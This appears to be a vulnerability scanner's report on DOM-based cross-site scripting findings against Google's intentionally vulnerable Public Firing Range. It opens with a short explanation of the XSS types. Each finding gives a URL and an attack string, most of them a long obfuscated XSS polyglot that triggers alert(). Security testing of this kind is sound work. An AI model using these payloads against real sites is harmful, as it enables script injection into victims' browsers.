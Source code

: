There are three types of Cross-site Scripting attacks: non-persistent, persistent and DOM-based.
Non-persistent attacks and DOM-based attacks require a user to either visit a specially crafted link laced with malicious code, or visit a malicious web page containing a web form, which when posted to the vulnerable site, will mount the attack. Using a malicious form will oftentimes take place when the vulnerable resource only accepts HTTP POST requests. In such a case, the form can be submitted automatically, without the victim's knowledge (e.g. by using JavaScript). Upon clicking on the malicious link or submitting the malicious form, the XSS payload will get echoed back and will get interpreted by the user's browser and execute. Another technique to send almost arbitrary requests (GET and POST) is by using an embedded client, such as Adobe Flash.
Persistent attacks occur when the malicious code is submitted to a web site where it's stored for a period of time. Examples of an attacker's favorite targets often include message board posts, web mail messages, and web chat software. The unsuspecting user is not required to interact with any additional site/link (e.g. an attacker site or a malicious link sent via email), just simply view the web page containing the code.

* URL: https://public-firing-range.appspot.com/address/location.hash/assign%23javascript:alert(5397&29
  * Method: `GET`
  * Parameter: ``
  * Attack: `#javascript:alert(5397)`
  * Evidence: ``
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/address/location.hash/eval%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/address/location.hash/formaction%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: `Tag name: input Att name:  Att id: `
* URL: https://public-firing-range.appspot.com/address/location.hash/function%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/address/location.hash/inlineevent%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: `Tag name: div Att name: null Att id: `
* URL: https://public-firing-range.appspot.com/address/location.hash/replace%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``